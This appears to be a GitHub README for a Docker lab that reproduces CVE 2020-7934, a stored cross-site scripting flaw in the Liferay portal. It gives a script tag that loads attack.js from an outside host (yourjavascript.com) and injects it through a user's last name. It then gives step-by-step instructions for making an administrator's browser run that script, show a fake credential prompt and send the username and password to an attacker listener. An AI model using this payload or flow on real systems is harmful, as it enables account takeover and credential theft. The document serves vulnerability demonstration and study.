 # CVE 2020-7934

## How to run CVE

### Requirements
1) docker
### Remarks
it's possible put the script attack online (given the js code ) http://yourjavascript.com/
Our Js script online for the attack
```html <script src="http://yourjavascript.com/920172199111/attack.js"></script> ```

### Commands for configuration
1) go to root folder of this project
2) run "sudo docker-compose up --build"
4) new terminal: run "docker inspect liferay"  ==> and copy the IPAddress value
5) new terminal: run "python api_attacker.py" 
5) open a browser and go to "http://IPAddress:8080" ==> you should get the liferay portal as response
6) to stop and delete containers use "sudo docker-compose rm"
### Istructions for the attack
1) Register in liferay as a user, log in, and in the "available sites" section, join the "liferay" site.
2) Change the "last name" in a JS script (directly (<script>alert("xss")</script>) or through a "src =" http ... "")
2) Log in as admin liferay (username: test@liferay.com, password: test)
3) Go to available sites and click on "liferay", the public page of this site will open.
4) Go to the new page, a menu will open on the right, click on mermbership.
5) Select the user registered in step 1. At that moment the script will be executed.
5.1) In the script attack.js the page will ask the credentials.
6) In the terminal of step 5 ( of Commands for configuration) it will be printed username/password inserted in 5.1 ( by admin ) )
